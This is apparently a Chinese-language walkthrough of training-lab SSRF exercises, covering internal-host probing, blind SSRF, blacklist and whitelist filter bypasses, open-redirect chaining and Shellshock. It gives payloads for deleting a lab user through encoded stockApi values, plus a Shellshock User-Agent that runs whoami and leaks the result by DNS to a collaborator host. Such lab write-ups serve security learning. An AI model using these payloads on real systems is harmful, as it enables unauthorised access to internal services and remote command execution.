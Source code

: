 ## 目录

- [针对本地服务器的基本 SSRF](#针对本地服务器的基本SSRF)
- [针对另一个后端系统的基本SSRF](#针对另一个后端系统的基本SSRF)
- [带外检测的盲SSRF](#带外检测的盲SSRF)
- [使用基于黑名单的输入过滤器的SSRF](#使用基于黑名单的输入过滤器的SSRF)
- [通过开放重定向漏洞绕过过滤器的SSRF](#通过开放重定向漏洞绕过过滤器的SSRF)
- [使用Shellshock漏洞的盲SSRF](#使用Shellshock漏洞的盲SSRF)
- [使用基于白名单的输入过滤器的SSRF](#使用基于白名单的输入过滤器的SSRF)
- [参考](#参考)



## 针对本地服务器的基本SSRF

选择一个商品，进去点检查库存 

![image-20240910141151318](./imgs/image-20240910141151318.png)

![image-20240910141337458](./imgs/image-20240910141337458.png)

![image-20240910141428677](./imgs/image-20240910141428677.png)

## 针对另一个后端系统的基本SSRF

访问产品，点击“检查库存”，在 Burp Suite 中拦截请求，并将其发送给 Burp Intruder。

该lab关注的情景是部署网站的局域网内的其他机器 通过该lab的条件是探测局域网`192.168.0.0/24`网段中的服务，删除carlos账户 进入lab，按上述提到的流程操作，发现和lab1类似的漏洞点 构造`http://192.168.0.1:8080/admin`发送请求，报错参数不存在

![image-20240910141831697](./imgs/image-20240910141831697.png)



![image-20240910142032997](./imgs/image-20240910142032997.png)

![image-20240910142043305](./imgs/image-20240910142043305.png)

![image-20240910142018447](./imgs/image-20240910142018447.png)

，将请求发送给intruder模块探测网段，发现`192.168.0.138`返回包的状态码是200

![image-20240910142130572](./imgs/image-20240910142130572.png)

![image-20240910142144932](./imgs/image-20240910142144932.png)

成功删除carlos

![image-20240910142222944](./imgs/image-20240910142222944.png)

## 带外检测的盲SSRF

先去collaborator生成一个随机的子域名

![image-20240910142535763](./imgs/image-20240910142535763.png)

商品详情的的请求发送到repeater，修改referrer字段

![image-20240910142519121](./imgs/image-20240910142519121.png)

collaborator页面观察是否有请求

![image-20240910142626981](./imgs/image-20240910142626981.png)

## 使用基于黑名单的输入过滤器的SSRF

访问产品，点击 “检查库存”，在 Burp Suite 中拦截请求，并将其发送到 Burp Repeater。

该lab关注的情景是web应用基于黑名单机制对输入进行过滤，需要绕过过滤实施攻击 通过lab的条件是访问`http://localhost/admin`，删除carlos的账户 基于前两个lab的经验，我直接构造了以下请求，发现被阻止了 `http%3a%2f%2f127.0.01%2fadmin%2fdelete%3fusername%3dcarlos`



![image-20240910143340034](./imgs/image-20240910143340034.png)

payload，将`127.0.0.1`修改为`127.1`，再次尝试，还是不成功

改payload，对url的path部分（即admin）进行一次url编码，还是不成功 `http%3a%2f%2f127.1%2f%61dmin%2fdelete%3fusername%3dcarlos`

通过将“a”编码为 %2561 的双重 URL 来混淆“a”，以访问管理界面并删除目标用户。

`http%3a%2f%2f127.1%2f%2561dmin%252fdelete%253fusername%253dcarlos`

![image-20240910144056578](./imgs/image-20240910144056578.png)

## 通过开放重定向漏洞绕过过滤器的SSRF

![image-20240910144410655](./imgs/image-20240910144410655.png)

该lab关注的情景是web应用对url的host部分的校验非常完善，无法直接发起恶意的服务端请求，但是该域名下其他功能存在开放重定向漏洞，这时候可以通过设置开放重定向的url来实施SSRF 通过该lab的条件是访问`http://192.168.0.12:8080/admin`，删除carlos账户 进入lab后尝试所有的功能，发现lab1，lab2和lab4的攻击方式都不成功，发现该lab有一新功能请求如下 `GET /product/nextProduct?currentProductId=2&path=` path是一个实施重定向的参数，并且存在开放重定向漏洞

![image-20240910145546322](./imgs/image-20240910145546322.png)

再次构造payload，构造stockApi参数如下

![image-20240910145534598](./imgs/image-20240910145534598.png)

## 使用Shellshock漏洞的盲SSRF

该lab关注的情景是Blind SSRF 通过条件是探测网段`192.168.0.0/24`的8080端口，使用[Shellshock漏洞](https://fdlucifer.github.io/2020/04/02/shellshock-exploitation/)获取到运行服务的OS的当前用户名 为了更好的探测网站是否存在SSRF漏洞，使用Collaborator EveryWhere插件

![image-20240910145938872](./imgs/image-20240910145938872.png)

域名添加到target->scope中

![image-20240910150900852](./imgs/image-20240910150900852.png)

浏览网站

请注意，当您加载产品页面时，它会通过 Referer 标头触发与 Burp Collaborator 的 HTTP 交互。

![image-20240910151023037](./imgs/image-20240910151023037.png)

观察 HTTP 交互在 HTTP 请求中包含您的 User-Agent 字符串。

![image-20240910151108612](./imgs/image-20240910151108612.png)

将请求发送到产品页面给 intruder中

设置User-Agent为：`() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN` 设置Referrer为：`http://192.168.0.1:8080` 开始攻击

![image-20240910151822670](./imgs/image-20240910151822670.png)

collaborator客户端，收到两个dns请求，请求的域名包含了需要的用户名

![image-20240910151853635](./imgs/image-20240910151853635.png)



## 使用基于白名单的输入过滤器的SSRF

![image-20240910152638986](./imgs/image-20240910152638986.png)

`stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`

![image-20240910152839601](./imgs/image-20240910152839601.png)





## 参考

- https://www.ddosi.org/ssrf-lab/